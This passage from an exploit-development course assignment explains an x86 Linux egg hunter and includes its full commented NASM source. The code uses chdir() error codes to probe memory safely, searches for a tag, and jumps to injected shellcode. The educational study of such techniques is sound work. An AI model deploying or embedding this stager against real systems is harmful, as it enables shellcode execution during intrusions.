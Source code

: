 Changing the value of the *filename variable on chdir() would allow to observe the error number for the different cases that could happen. And it is possible to conclude that chdir() will return **14** in case of *bad address* or *address not reachable*.

But, what is the representation of this error number on hexadecimal? For this, it is necessary to use the *[two's complement method](https://www.cs.cornell.edu/~tomf/notes/cps104/twoscomp.html)*, which will reveal that the number we are looking for is **0xF2**.

![](../Images/03_slae_assignment_3.png)
![](../Images/04_slae_assignment_3.png)

``Two's complement method summary``

### The code

Now that main parts of the *egg hunter* have been defined, the details about the *egg hunter* will be placed on the code section and a summary explanation will follow it.

````
; Filename:     egg_hunter.nasm
; Author:       Samuel Dugo
; SLAE-ID:      SLAE-1376
; Size:         35 bytes
; Purpose:      Assignment #3. This code creates an egg hunter using the tag "F34r".

global _start

section .text
_start:
        xor edx,edx             ;cleans the pointer of addresses to be inspected
pagination:
        or dx,0xfff             ;page alignment instruction
                                ;In case of invalid page, it goes directly to the next one
inc_addr:
        inc edx                 ;moves up the PAGE_SIZE value (starts at fff+1 = 0x1000)
                                ;used to go over valid addresses on every valid page

        lea ebx,[edx+0x4]       ;loads the value of edx+0x4 on ebx.
                                ;This technique helps to evaluate 8 bytes every time.
                                ;The EggHunter compares the last 4 bytes first, and if there is a
                                ;coincidence, scasd will automatically reduce edi by 4, so
                                ;the first 4 bytes will be also compared.
        push byte 0x0c
        pop eax                 ;sets syscall as sys_chdir
        int 0x80                ;executes chdir(ebx)
        cmp al,0xf2             ;checks if the function returned an EFAULT error
        jz pagination           ;if EFAULT was set, the memory address space cannot be accessed
        mov eax,0x46333472      ;else, load the egg hunter tag "F34r" on eax
        mov edi,ebx             ;loads the current memory address searched (last 4 bytes) on edi

        scasd                   ;checks if the address (last 4 bytes) matches the egg hunter tag
        jnz inc_addr            ;if not, continue on next address
        scasd                   ;else, reduce edi by 4 and check if the address (first 4 bytes)
                                ;matches the egg hunter as well
        jnz inc_addr            ;if not, continue on next 8 bytes

        jmp edi                 ;if the egg hunter is found, jumps onto
                                ;the address and execute the shellcode
````
``Code for Egg Hunter (35 bytes)``
